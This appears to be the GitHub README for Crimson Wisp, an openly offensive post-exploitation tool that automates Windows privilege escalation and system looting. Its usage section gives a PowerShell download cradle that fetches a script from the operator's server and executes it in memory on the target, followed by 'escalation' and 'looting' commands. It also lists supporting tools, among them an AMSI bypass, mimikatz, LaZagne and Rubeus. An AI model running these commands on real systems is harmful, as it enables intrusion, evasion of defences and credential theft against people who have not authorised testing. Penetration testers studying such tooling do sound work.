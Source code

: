 # Crimson Wisp

> Crimson Wisp is a tool that automates post-exploitation `PRIVILEGE ESCALATION` & `LOOTING` phases.
> It uses many open source tools. Most of them are available for download from GitHub.

<p align="center">
  <img src="wisp.png" />
</p>

# Installation
```
git clone https://github.com/Karmaz95/crimson_wisp.git
```
# Usage
## ON THE HOST MACHINE
* GO TO crimson_wisp DIRECTORY AND START THE WEB SERVER
```
cd crimson_wisp
sudo python3 -m http.server 80
```
## ON THE TARGET MACHINE
* LOAD THE SCRIPT TO MEMMORY
```
IEX(new-object system.net.webclient).downloadstring("http://<your_server>/wisp.txt")
```
* SET A SERVER URL FOR THE DOWNLOADERS
```
Invoke-Wisp -Url 'http://<your_server>/'
```
* PRIVILEGE ESCALATION ENUMERATION
```
escalation
```
* LOOTING THE SYSTEM - USE AS nt `authority/system` ONLY!
```
looting
```
# HISTORY
> If you are curious about how it works, read my blog:
* [MEDIUM](https://karol-mazurek95.medium.com/)

# List of utilized tools
> The following tools are used in `Crimson Wisp`. I encourage you to study the links below. They will help you in your work.

* [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
* [AMSI BYPASS](https://github.com/Karmaz95/evasion/blob/main/isma.txt)
* [HostRecon](https://github.com/dafthack/HostRecon)
* [PrivescCheck](https://github.com/itm4n/PrivescCheck)
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
* [SharpHound](https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1)
* [adPEAS](https://github.com/61106960/adPEAS)
* [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)
* [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)
* [Invoke-Portscan](https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Portscan/)
* [mimikatz](https://github.com/gentilkiwi/mimikatz)
* [psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)
* [procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)
* [nmap](https://nmap.org/)
* [Rubeus](https://github.com/GhostPack/Rubeus)
* [laZagne](https://github.com/AlessandroZ/LaZagne)

# LICENSE
> This program is free software: you can redistribute it and/or modify it under the terms of the [Apache License](https://choosealicense.com/licenses/apache-2.0/). Crimson Lisp and any contributions are Copyright © by Karol Mazurek 2022.

# SUPPORT
> You can support the project by buying me a coffee or via [NFT](https://opensea.io/assets/matic/0x2953399124f0cbb46d2cbacd8a89cf0599974963/63545429842149574507305116647116186975620361263604520406486432940112228647212/) which unlock the secret Crimson Web community.

<a href="https://www.buymeacoffee.com/karmaz95" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-red.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 200px !important;" ></a>